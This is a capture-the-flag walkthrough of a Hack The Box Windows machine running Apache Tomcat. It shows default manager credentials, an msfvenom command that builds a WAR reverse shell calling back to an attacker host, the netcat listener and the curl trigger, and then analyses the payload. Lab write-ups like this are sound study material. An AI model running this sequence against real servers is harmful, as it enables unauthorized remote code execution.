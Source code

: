 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
## 🧭 Recon

### 🔍 Full TCP Port Scan
```bash
nmap -sT -p- --min-rate 5000 10.10.10.95
```
- Only port **8080** is open.

### 🔍 Version Detection
```bash
nmap -sV -sC -p 8080 -oA nmap/initial 10.10.10.95
```
- Port 8080 runs [Tomcat](HTTP): `Apache Tomcat/Coyote JSP engine 1.1`.

---

## 🌐 [Web Discovery](HTTP)

### 🔑 Tomcat Manager Login
- Navigate to `http://10.10.10.95:8080`
- Default credentials work:
  ```text
  Username: tomcat
  Password: s3cret
  ```

- This provides access to the **Tomcat Manager Application**, including a WAR deployment section.

---

## 💣 Exploitation via WAR Upload

### ⚙️ Create Malicious WAR Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.XX LPORT=9002 -f war > rev_shell.war
```

### 🧪 Discover JSP Payload Name
```bash
jar -tf rev_shell.war
# Output includes: ppaejmsg.jsp
```

### 🛜 Serve WAR File
Upload via Tomcat Manager at:  
➡️ `http://10.10.10.95:8080/manager/html`

### 📡 Trigger Reverse Shell
On attacker:
```bash
nc -lnvp 9002
```

On target:
```bash
curl http://10.10.10.95:8080/rev_shell/ppaejmsg.jsp
```

Shell received:
```bash
whoami
# nt authority\system
```

---

## 🏁 Flags

```bash
cd C:\Users\Administrator\Desktop\flags
type 2\ for\ the\ price\ of\ 1.txt
```

**🎯 Output:**
```
user.txt: 7004dbce...
root.txt: 04a8b36e...
```

---

## 🔍 Beyond Root – War File Analysis

### 📦 WAR = ZIP
```bash
unzip -l rev_shell.war
```

### 🧾 Key Contents:
- `WEB-INF/web.xml`: servlet definition
- `ppaejmsg.jsp`: main reverse shell payload

### 🧠 JSP Breakdown:
- Hex-encoded executable written to disk
- Executed via `Runtime.getRuntime().exec()`
- On Linux: chmod +x before execution
- On Windows: just run `.exe`

### 🔄 Reverse Engineering the Binary
```bash
cat hex | xxd -r -p > rev_shell.exe
```

### 🧪 Test via Wine + tcpdump
```bash
wine rev_shell.exe
tcpdump -i any port 9002
```

Confirmed reverse shell behavior with **exponential backoff retry pattern**.

---

## ✅ Summary

| Phase               | Achievement                              |
|--------------------|-------------------------------------------|
| Recon              | Found Tomcat on port 8080                 |
| Exploit            | Gained SYSTEM shell via WAR upload        |
| User Flag          | Retrieved from Administrator desktop      |
| Root Flag          | Included in same text file as user        |
| Analysis           | Decompiled and verified WAR structure     |
